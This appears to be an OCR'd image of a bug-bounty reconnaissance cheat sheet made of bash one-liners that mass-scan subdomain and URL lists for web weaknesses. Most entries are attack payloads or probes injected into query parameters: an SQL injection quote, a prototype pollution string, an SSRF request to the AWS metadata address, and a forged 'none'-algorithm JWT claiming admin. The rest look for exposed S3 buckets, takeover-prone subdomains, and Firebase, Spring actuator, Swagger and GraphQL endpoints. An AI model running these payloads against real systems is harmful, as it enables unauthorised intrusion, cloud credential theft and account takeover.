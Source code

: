 🧰 **S3 Bucket Discovery via Subdomain Bruteforce**  
```bash
cat subdomains.txt | awk -F. '{print $1"."$2}' | xargs -I {} aws s3 ls s3://{} --no-sign-request 2>/dev/null | tee s3_buckets.txt
```

💧 **AWS S3 Bucket Takeover (Subdomain Takeover)**  
```bash
cat subdomains.txt | xargs -I {} host {} | grep 'amazonaws.com' | awk '{print $1}' | httpx -silent -mc 404 -o vulnerable_s3.txt
```

📜 **Exposed Swagger/OpenAPI Endpoints**  
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/swagger.json\n/openapi.json\n/api-docs') -mc 200 -o openapi_endpoints.txt
```

**Prototype Pollution in Query Params**  
```bash
cat urls.txt | qsreplace '__proto__[evil]=polluted' | httpx -silent -fr 'polluted' -o prototype_pollution.txt
```

💉 **SQL Injection (Basic Reflex Check)**  
```bash
cat urls.txt | qsreplace "'" | httpx -silent -fr 'SQL syntax' -o sqli.txt
```

🔗 **SSRF (Internal IP Scan via Open Redirect or URL Input)**  
```bash
cat urls.txt | qsreplace 'http://169.254.169.254/latest/meta-data/' | httpx -silent -fr 'ami-id' -o ssrf_aws_metadata.txt
```

🔥 **Spring Boot Actuator Exposure (DevOps Misconfig)**  
```bash
cat subdomains.txt | httpx -silent -path /actuator/env -mc 200 -o springboot_actuator_exposed.txt
```

**JWT None Algorithm Bypass**  
```bash
cat urls.txt | qsreplace 'eyJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.' | httpx -silent -fr 'admin' -o jwt_none_bypass.txt
```

**Firebase Misconfig (Open Firebase Databases)**  
```bash
cat subdomains.txt | sed 's/$/.firebaseio.com/' | httpx -silent -path /.json -mc 200 -o open_firebase.txt
```

📡 **GraphQL Playground/Console Discovery**  
```bash
cat subdomains.txt | httpx -silent -path /graphiql -mc 200 -o graphql_console.txt
```

⚠️ **SOAP Service Discovery (Old APIs)**  
```bash
cat subdomains.txt | httpx -silent -path /services.wsdl -mc 200 -o soap_services.txt
```
